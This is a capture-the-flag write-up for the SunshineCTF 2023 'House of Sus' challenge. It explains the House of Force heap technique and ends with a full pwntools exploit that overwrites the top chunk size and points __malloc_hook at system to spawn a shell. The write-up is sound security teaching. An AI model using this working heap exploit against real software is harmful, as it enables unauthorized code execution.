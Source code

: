 ## Level: Easy

**TLDR:** create a chunk and overwrite the wilderness with a very large number due to an overflow. This will overlap the target address and resulting in write-what-where, which you can use it to overwrite malloc_hook with system to get a shell.  
  
### Checksec

![checksec](https://github.com/user-attachments/assets/b1f5f164-7791-4db8-80d0-da2e3aeca2af)

### Challenge
  
![menu](https://github.com/user-attachments/assets/24c5f22c-227d-488b-9446-7efe84d7e67e)

Very cool menu :D
We have a heap and a libc leak (option 2).

Also there is an overflow in option 3 so we can create a chunk then overwrite the wilderness (the top chunk's size) with a very large number (e.g. -1). This will make sure that malloc won't use `mmap` for any further allocations because it will think the top chunk has always *enough* space. And this will result in overlapping target address (write-what-where). 

### Approach 

```
1 - Use the overflow in `[3] Call an emergency meeting` to overwrite the wilderness with a very large number.
```

![newwilderness](https://github.com/user-attachments/assets/47fb63ae-68a5-46e8-b76c-bf89da5d1922)

```
2 - Calculate the address of wilderness and the target from the leaks
3 - Allocate a chunk with size of target - top_addr - 0x10 # for metadata
```

![overlapsize](https://github.com/user-attachments/assets/2cb9e4e7-8221-4398-a75d-f3bbffa74f19)


```
4 - Overwrite malloc_hook pointer (the target address) with system
```

![systemoverwrite](https://github.com/user-attachments/assets/f5518ba2-59f8-4808-99ed-6df30c7f0f5e)

```
5 - Call malloc with the address of "/bin/sh" as size to get a shell
```

![flag](https://github.com/user-attachments/assets/bc4a5ea9-72a6-487b-88b8-03b28a7dc0ef)


Calculating the offset for distance was quite painful until I get the hang of it. As always, following sources helped me understand this **House of Force** technique and eventually solve the challenge:

House of force: https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-force

More about the house: https://book.hacktricks.xyz/binary-exploitation/libc-heap/house-of-force

c0nrad's writeup: https://youtu.be/qA6ajf7qZtQ?t=2277

offical(i guess) write up: https://github.com/SunshineCTF/SunshineCTF-2023-Public/blob/main/Pwn/House_of_Sus/house_of_sus_exp.py

get the challenge from: https://github.com/SunshineCTF/SunshineCTF-2023-Public/tree/main/Pwn/House_of_Sus

Thank you to all of them and the author for this cool challenge!

### Full Exploit
```python
#!/usr/bin/env python

from pwn import *
import time
"""
p = gdb.debug("./house_of_sus_patched", gdbscript='''
    c
''')
"""
p = process("./house_of_sus_patched")

def emergency_meeting(size, response, imposter):
    p.sendline(b"3")
    p.recvuntil(b"tasks >:(\n\n")
    p.sendline(str(size).encode('utf-8'))
    time.sleep(0.5)
    p.sendline(response)
    
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))

def do_task():
    p.sendline(b"1")

def report_body(imposter):
    p.sendline(b"2")
    p.recvuntil(b"the seed: ")
    libc_leak = int(p.recvline().strip())
    print("LIBC LEAK:" + hex(libc_leak))
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))
    return libc_leak

p.recvuntil(b"joining game: ")

heap_leak = int(p.recvline().strip(), 16)
print("HEAP LEAK: " + hex(heap_leak))

# libc leak thanks to seed in report_body option
p.recvuntil(b"emergency meeting\n\n")
libc_leak = report_body(1)

libc_base = libc_leak - 279440
malloc_hook = libc_base + 4111408
system = libc_base + 324640
binsh = libc_base + 1785224

print("malloc_hook: " + hex(malloc_hook))
print("binsh: " + hex(binsh))

# overwrite the wilderness with "-1"
# so it will overlap the target on the next malloc 
payload = b"A" * 40
payload += p64(0xFFFFFFFFFFFFFFFF)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(40, payload, 1)

# calculate where the top chunk size (the wilderness) is 
heap_addr = heap_leak + 88 + 4112

# calculate the distance for malloc_hook
# allocate a chunk with a size of to the distance for malloc_hook
distance = malloc_hook - heap_addr - 0x10  # 0x10 for the metadata 
payload = b"B" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(distance, payload, 1)

# overwrite malloc_hook pointer with system
payload = p64(system)
payload += b"C" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(30, payload, 1)

# call malloc with "/bin/sh" in size
payload = b'whoami'
binsh = int(binsh)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(binsh, payload, 1)

p.interactive()
```
<p align="center">
![Easy](https://media1.tenor.com/m/-POqhuRZuEUAAAAd/easy-mode-shinoa-shinoa.gif)
</p>
